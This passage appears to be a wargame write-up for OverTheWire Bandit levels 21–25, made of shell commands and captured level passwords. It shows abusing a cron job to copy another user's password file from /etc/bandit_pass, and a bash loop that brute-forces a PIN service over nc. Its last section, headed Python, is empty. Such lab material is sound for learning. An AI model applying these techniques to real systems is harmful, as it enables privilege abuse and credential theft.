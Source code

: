 # Bandit21
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
flag:Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
# Bandit22
```
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
flag:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
# Bandit23
```
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/uwu
vim uwu.sh
```
In uwu.sh:
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/lol2/uwu
```
```
touch uwu
cp uwu.sh  /var/spool/bandit24
```
Wait for cron execute the script <br>
flag:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
# Bandit25
## Bash script
```
#!/bin/bash                                                                                                                                                                              
 password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ";
 al=""
 for i in {0000..9999}; do
 	echo "${password} ${i}" >> plol
 done	
 cat plol
 cat plol | nc localhost 30002 >> lal
 cat lal | uniq | grep password
```
## Python 














